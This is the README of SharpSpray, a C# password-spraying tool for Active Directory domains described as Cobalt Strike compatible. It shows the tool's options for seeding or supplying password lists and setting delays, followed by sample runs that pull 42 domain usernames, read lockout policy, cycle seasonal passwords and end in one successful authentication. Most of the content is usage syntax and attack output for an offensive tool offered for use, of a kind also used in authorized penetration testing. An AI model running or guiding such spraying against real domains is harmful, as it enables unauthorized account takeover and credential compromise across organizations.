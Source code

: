 # SharpSpray
This project is a C# port of my PowerSpray.ps1 script. SharpSpray a simple code set to perform a password spraying attack against all users of a domain and is compatible with Cobaltstrike.

https://github.com/jnqpblc/Misc-PowerShell/blob/master/PowerSpray.ps1

By default it will automatically generate the UserList from the domain.
By default it will automatically generate the PasswordList using the current date.
Be careful not to lockout any accounts.

```
SharpSpray.exe
      --Seeds [ A comma-separated list of passwords to as a seed to the internal list generator. Eg. Password,Welcome,Company ]
      --Passwords [ A comma-separated list of passwords to use instead of the internal list generator. Eg. Password1,Password19,Company19,Welcome19 ]
      --Delay [The delay time between guesses in millisecounds. Eg. 300 ]
      --Sleep [ The number of minutes to sleep between password cycles. Eg. 15 ]

C:\Users\jnqpblc\Desktop>SharpSpray.exe --Sleep 15
[+] Successfully collected 42 usernames from Active Directory.
[*] The Lockout Threshold for the current domain is 10.
[*] The Min Password Length for the current domain is 10.
[+] Successfully generated a list of 64 passwords.
[*] Starting password spraying operations.
[*] Using a delay of 1000 milliseonds between attempts.
[*] Using password Winter19
^C

C:\Users\jnqpblc\Desktop>SharpSpray.exe --Seeds Password,Welcome,Company --Sleep 15
[+] Successfully collected 42 usernames from Active Directory.
[*] The Lockout Threshold for the current domain is 10.
[*] The Min Password Length for the current domain is 10.
[+] Successfully generated a list of 42 passwords.
[*] Starting password spraying operations.
[*] Using a delay of 1000 milliseonds between attempts.
[*] Using password Password19
^C

C:\Users\jnqpblc\Desktop>SharpSpray.exe --Passwords ItsNotWinter! --Sleep 15 --Delay 300
[+] Successfully collected 42 usernames from Active Directory.
[*] The Lockout Threshold for the current domain is 10.
[*] The Min Password Length for the current domain is 10.
[+] Successfully generated a list of 1 passwords.
[*] Starting password spraying operations.
[*] Using a delay of 300 milliseonds between attempts.
[*] Using password ItsNotWinter!
[+] Successfully authenticated with jnqpblc::ItsNotWinter!
[*] Completed all rounds with password ItsNotWinter!
[*] Now the script will sleep for 15 minutes.
^C
```

